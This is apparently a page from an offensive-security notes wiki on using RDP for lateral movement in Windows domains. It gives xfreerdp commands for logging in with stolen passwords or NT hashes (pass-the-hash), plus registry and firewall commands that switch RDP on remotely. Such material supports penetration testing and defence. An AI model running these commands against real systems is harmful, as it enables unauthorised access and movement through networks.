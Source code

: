 ```yaml
---
label: RDP
---
```


# Remote Desktop Protocol (RDP) for Lateral Movement

> **Requirements**:
>
> * Credentials (password, NT hash, Kerberos TGT) of a member of the local **Administrators** or **Remote Desktop Users** group on the target machine.
> * RDP enabled on the target machine (disabled by default on both Server and Client Windows).

**RDP (3389/TCP) is not active by default**. It must be explicitly enabled. By default, if you want to connect via RDP, you need to be a **local administrator** or a member of local **Remote Desktop Users** group on the target machine. Logon via RDP is of the **Remote Interactive type** (reusable credentials are available).

{/*
<!-- TODO: 
    You can pass the hash using xfreerdp.  There is one important caveat however. This is only possible when the system has Restricted Admin Mode enabled. If this is not enabled and you try to PTH, you will get an error stating that “Account Restrictions are preventing this user from signing in.”  Restricted Admin Mode is disabled by default. The good news is, if you have any level of admin access to the system and access to SMB/WinRM/etc, you can enable this feature remotely. -->
*/}

Linux:

```bash
# Using password
xfreerdp /u:$user /p:$password /v:$host /d:$domain

# Using NT hash
xfreerdp /u:$user /pth:$nt_hash /v:$host /d:$domain
```

Windows:

```powershell
# Open RDP connection dialog (target user's password is required)
mstsc
```

{/*
<!-- Restricted Admin mode for RDP, https://learn.microsoft.com/en-us/archive/blogs/kfalde/restricted-admin-mode-for-rdp-in-windows-8-1-2012-r2 -->
*/}

## Enable RDP with CMD

> **NOTE**: Windows Home doesn't have built-in RDP server. It's available on Windows Server, Pro and Enterprise editions.

If you have administrative access to the machine (e.g. via SmbExec or WinRM) you can activate RDP using CMD:

```powershell
# Enable RDP service
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Allow RDP on firewall
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

## References

* [Kali.org, _Passing the Hash with Remote Desktop_](https://www.kali.org/blog/passing-hash-remote-desktop/)
